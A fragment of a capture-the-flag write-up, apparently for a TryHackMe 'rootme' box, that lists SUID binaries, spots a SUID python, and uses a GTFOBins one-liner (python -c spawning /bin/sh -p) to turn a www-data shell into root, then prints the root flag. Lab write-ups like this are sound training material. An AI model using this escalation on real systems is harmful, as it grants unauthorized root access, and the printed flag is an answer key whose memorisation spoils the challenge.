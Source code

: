 ```
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
www-data@rootme:/var/www$  
```

I got a odd file that is `/usr/bin/python`

Let search the priv esc on [gtfo bin](https://gtfobins.github.io/gtfobins/python)
search for python and suid

![image](https://github.com/user-attachments/assets/a40dcb94-7904-4fb2-9ccb-4d6d5a490839)

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Past this 
```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# 
```
Finding root flag.txt
```
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 
```
